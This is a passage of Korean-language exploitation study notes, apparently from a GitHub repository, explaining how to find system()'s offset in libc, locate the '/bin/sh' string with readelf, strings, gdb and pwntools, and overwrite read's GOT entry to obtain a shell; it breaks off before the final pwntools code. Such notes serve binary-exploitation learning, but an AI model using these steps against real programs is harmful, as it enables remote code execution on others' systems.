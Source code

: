    2. system 함수의 offset 확인
      1. linux 명령어 사용     
         - `readelf -s /lib/x86_64-linux-gnu/libc.so.6` 
             ```
             92: 0000000000083970   448 FUNC    WEAK   DEFAULT   15 gets@@GLIBC_2.2.5
             430: 0000000000084420   476 FUNC    WEAK   DEFAULT   15 puts@@GLIBC_2.2.5
             639: 0000000000061c90   204 FUNC    GLOBAL DEFAULT   15 printf@@GLIBC_2.2.5
             942: 000000000010e1e0   153 FUNC    GLOBAL DEFAULT   15 read@@GLIBC_2.2.5
             1430: 0000000000052290    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
             ```
         - system 함수의 offset은 `0x0000000000052290`
      2. pwntool 사용
         - ELF 함수로 ELF 파일을 읽고 필요한 함수의 symbol을 참조한다.
           ```
           libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
           offset_system = libc.symbols['system']
           print(offset_system)
           ```

   - 1,2에서 나온 결과를 종합하여, libc_base 에 system 함수의 offset을 더한 결과가 "실행된 프로그램의 메모리에 적재된 system 함수의 주소" 값이다. 
   - libc 의 일부 함수의 주소를 입력하면 libc 버전 및 다른 함수의 주소도 확인할 수 있는 사이트가 있다.
     - [사이트 링크](https://libc.rip/)

3. "/bin/sh" 문자열의 위치를 찾는다. (생략 가능)
   - "/bin/sh" 문자열을 lib.so.6 파일에서 찾을 수 있지만, writing 가능한 버퍼에 직접 문자열을 입력하는 방법도 있다. 후자의 경우 굳이 "/bin/sh" 를 찾을 필요가 없다.
   - libc.so.6 에 포함된 "/bin/sh" 문자열의 주소를 찾으려면, system() 함수의 주소를 찾을 때와 마찬가지로 `/bin/sh` 문자열의 offset 에 libc_base 주소를 더하여 참조할 수 있다.
   
   1. gdb 사용
      - `gdb` 를 사용하면 offset이 아닌 실제 주소를 확인할 수 있다. `search /bin/sh` 명령으로 /bin/sh 의 "메모리상 주소" 가 출력된다.
        - ex)
          ```
          pwndbg> search /bin/sh
          Searching for value: '/bin/sh'
          libc-2.31.so    0x7ffff7f7f5bd 0x68732f6e69622f /* '/bin/sh' */

          # /bin/sh 의 주소(0x7ffff7f7f5bd) 에서 libc_base 를 뺀 값이 /bin/sh 의 offset이 된다.
          ```

   2. linux 명령어 사용
      - linux의 `strings` 명령을 이용한다.
      - `strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh` 명령 결과 `1b45bd /bin/sh` 가 확인된다. 

   3. pwntool 사용
     - ELF 파일을 분석하여 나온 결과에 libc_base 를 더하면 실제 메모리 주소가 나온다. 
     - ex)
        ```
        from pwn import *
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        
        # /bin/sh offset 확인
        bin_sh1 = list(libc.search(b'/bin/sh'))[0]  # 방법1
        bin_sh2 = next(libc.search(b'/bin/sh'))  # 방법2
        # -> /bin/sh/ 의 메모리상 주소 == libc_base + bin_sh1 이다.
        ```
4. system("/bin/bash") 를 작성한다.
   - read 함수의 got 에 system 함수의 주소를 넣으면, 코드상 read("/bin/bash") 가 실제로는 system("/bin/bash") 로 동작하게 된다. 
   - 이를 이용해 got 영역을 조작하여 system 함수를 호출한다.
   1. pwntool 사용